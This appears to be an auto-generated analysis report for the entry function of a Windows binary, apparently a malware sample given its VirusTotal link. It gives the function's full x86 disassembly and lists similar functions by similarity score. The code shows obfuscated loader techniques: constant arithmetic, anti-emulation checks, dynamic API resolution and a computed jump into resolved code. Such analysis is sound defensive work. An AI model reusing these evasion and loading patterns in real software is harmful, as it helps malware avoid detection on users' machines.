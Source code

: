 ```yaml
---
layout: post
title:  "entry0 @ 17cfe3aa7ac367890e50975dfb0b46b7"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** entry0
- **Origin (md5):** 17cfe3aa7ac367890e50975dfb0b46b7
- **VirusTotal:** [virustotal.com/gui/file/17cfe3aa7ac367890e50975dfb0b46b7][virustotal_ref]

# Code Tags
<span class="tag" id="LINKING">LINKING</span>


# Similar Functions

1. [fcn.005c233f][similar_1_ref] (sim.: 0.8559497356663724)
2. [fcn.0079dfc0][similar_2_ref] (sim.: 0.8512231214378636)
3. [fcn.1400387c0][similar_3_ref] (sim.: 0.8428214195763171)
4. [fcn.10bf5f0f][similar_4_ref] (sim.: 0.8406562970412923)
5. [fcn.10bcee49][similar_5_ref] (sim.: 0.8375034248021713)


# Disassembled Code

{% highlight nasm %}
xor ecx,ecx
push ebp
push esp
pop ebp
add esp,0xffffffbc
lea eax,[0x44572]
lea ecx,[0x44579]
mov ecx,esp
sbb cx,0xfe02
jb 0x402e62
lea eax,[0x98ec1789]
add eax,0x67543211
sub esp,4
mov dword[esp],eax
mov eax,0
neg eax
push eax
mov eax,0xfff00000
neg eax
push eax
call dword[sym.imp.kernel32.dll_OpenEventW]
cmp eax,0
jne 0x401069
lea eax,[0x402be0]
jmp eax
lea eax,[0x98ec1789]
add eax,0x67543211
sub esp,4
mov dword[esp],eax
mov eax,0
neg eax
push eax
mov eax,0xfff00000
neg eax
push eax
call dword[sym.imp.kernel32.dll_OpenEventW]
cmp eax,0
jne 0x402be0
lea eax,[0x4010a1]
jmp eax
lea eax,[0x98ec1779]
add eax,0x67543211
sub esp,4
mov dword[esp],eax
lea eax,[0x98ec1769]
add eax,0x67543211
sub esp,4
mov dword[esp],eax
call dword[sym.imp.kernel32.dll_SystemTimeToFileTime]
lea ecx,[0x404937]
inc ecx
push ecx
lea eax,sym.imp.kernel32.dll_GetModuleHandleA
call dword[eax]
mov dword[0x404908],eax
lea esi,[0x40492c]
inc esi
push esi
push eax
lea esi,[0x404944]
inc esi
push esi
push eax
lea eax,sym.imp.kernel32.dll_GetProcAddress
call dword[eax]
push eax
pop dword[0x404904]
push eax
mov eax,0xfffffff7
neg eax
push eax
lea eax,[0x98ec17a6]
add eax,0x67543211
sub esp,4
mov dword[esp],eax
lea eax,[0x98ec1798]
add eax,0x67543211
sub esp,4
mov dword[esp],eax
call dword[sym.imp.kernel32.dll_GetEnvironmentVariableW]
test eax,eax
jne 0x402e62
pop eax
lea esi,[0x404920]
inc esi
push esi
call dword[0x404904]
push eax
test eax,eax
je 0x402e62
lea esi,[0x404920]
inc esi
push 0x61736471
pop dword[esi]
push esi
mov eax,dword[0x404904]
call eax
mov dword[0x404914],eax
test eax,eax
jne 0x402e62
push 1
dec dword[esp]
jne 0x402cb4
add esp,4
mov eax,0
neg eax
push eax
call dword[sym.imp.kernel32.dll_SetErrorMode]
mov eax,0xfffffff7
neg eax
push eax
lea eax,[0x98ec17a6]
add eax,0x67543211
sub esp,4
mov dword[esp],eax
lea eax,[0x98ec1798]
add eax,0x67543211
sub esp,4
mov dword[esp],eax
call dword[sym.imp.kernel32.dll_GetEnvironmentVariableW]
cmp eax,0
jne 0x402e62
pop edx
push edx
sub edx,0xffffffc3
dec edx
mov edx,dword[edx]
add dword[esp],edx
pop edx
add edx,0xa4
mov dword[0x404952],edx
mov eax,dword[sym.imp.kernel32.dll_GetProcAddress]
call eax
mov dword[0x40490c],eax
mov eax,dword[0x404952]
mov eax,dword[eax]
mov dword[0x404952],eax
mov eax,0xfffffff7
neg eax
push eax
lea eax,[0x98ec17a6]
add eax,0x67543211
sub esp,4
mov dword[esp],eax
lea eax,[0x98ec1798]
add eax,0x67543211
sub esp,4
mov dword[esp],eax
call dword[sym.imp.kernel32.dll_GetEnvironmentVariableW]
cmp eax,0
jne 0x402e62
lea esi,[0x404952]
push dword[esi]
add esp,4
cmp dword[esp-4],0xfdf
ja 0x402da2
cmp dword[esi],0xa0
ja 0x402da7
call 0x402e62
add dword[0x404914],0x402e62
sub esi,esi
call dword[esi+0x404914]
push eax
ret
jmp 0x402e62
cmp byte[0x404914],0
je 0x402db6
push entry0
ret
lea eax,[0x402dcd]
jmp eax
mov esp,ebp
mov ebp,esp
jmp 0x402e66
{% endhighlight %}


[similar_1_ref]: /report/fcn.005c233f@43f1a4b17a22b06cf1d6e21e3bb2b62d
[similar_2_ref]: /report/fcn.0079dfc0@a5905e3c253c25bbaf727a1a18fe8ed1
[similar_3_ref]: /report/fcn.1400387c0@3bee9e0608c478ffce0d10559aae732b
[similar_4_ref]: /report/fcn.10bf5f0f@89dc67d2f980e8488f97b1bf8cb24258
[similar_5_ref]: /report/fcn.10bcee49@89dc67d2f980e8488f97b1bf8cb24258
[virustotal_ref]: https://www.virustotal.com/gui/file/17cfe3aa7ac367890e50975dfb0b46b7
